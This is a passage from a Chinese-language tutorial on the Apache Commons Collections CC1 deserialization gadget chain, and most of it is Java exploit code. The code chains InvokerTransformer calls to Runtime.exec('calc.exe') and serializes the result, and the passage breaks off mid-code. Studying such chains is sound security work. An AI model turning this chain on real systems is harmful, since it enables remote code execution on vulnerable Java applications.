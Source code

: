 但是我们还需要解决三个问题

1. ​`Runtime`​不能够直接序列化
2. ​`setValue()`​方法需要传参问题
3. 达到两个`if`​条件才可以进入`setValue()`​方法

通过普通反射的问题,我们就可以解决`Runtime`​序列化的问题

```java
// 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{String.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);
```

然后再与`.decorate()`​方法相结合可以得到如下`exp`​

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class FinEXP {
    public static void EXP() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
        // 把反射Runtime与InvokerTransformer结合
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("key", "value");
        Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor aihConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        aihConstructor.setAccessible(true);
        Object o = aihConstructor.newInstance(Override.class, transformedMap);


        serialize(o);
        unserialize("p.bin");
    }
    public static void serialize(Object obj) throws IOException{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("p.bin"));
```